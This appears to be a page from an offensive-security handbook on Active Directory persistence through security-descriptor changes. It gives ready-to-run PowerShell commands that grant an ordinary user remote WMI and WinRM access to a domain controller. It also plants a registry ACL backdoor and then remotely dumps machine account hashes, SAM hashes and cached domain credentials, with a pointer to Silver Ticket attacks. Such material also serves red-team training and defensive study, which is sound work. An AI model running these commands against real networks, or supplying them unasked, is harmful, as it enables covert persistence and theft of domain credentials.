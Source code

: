 # Security Descriptors

 

## Security Descriptors

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:: `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;`

The **security descriptors** are used to **store** the **permissions** an **object** has **over** an **object**. If you can just **make** a **little change** in the **security descriptor** of an object, you can obtain very interesting privileges over that object without needing to be member of a privileged group.

Then, this persistence technique is based on the hability to win every privilege needed against certain objects, to be able to perform a task that usually requires admin privileges but without the need of being admin.

### Access to WMI

You can give a user access to **execute remotely WMI** [**using this**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1):

```bash
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose #Remove
```

### Access to WinRM

Give access to **winrm PS console to a user** [**using this**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)**:**

```bash
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove #Remove
```

### Remote access to hashes

Access the **registry** and **dump hashes** creating a **Reg backdoor using** [**DAMP**](https://github.com/HarmJ0y/DAMP)**,** so you can at any moment retrieve the **hash of the computer**, the **SAM** and any **cached AD** credential in the computer. So, it's very useful to give this permission to a **regular user against a Domain Controller computer**:

```bash
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```

Check [**Silver Tickets**](silver-ticket.md) to learn how you could use the hash of the computer account of a Domain Controller.

 
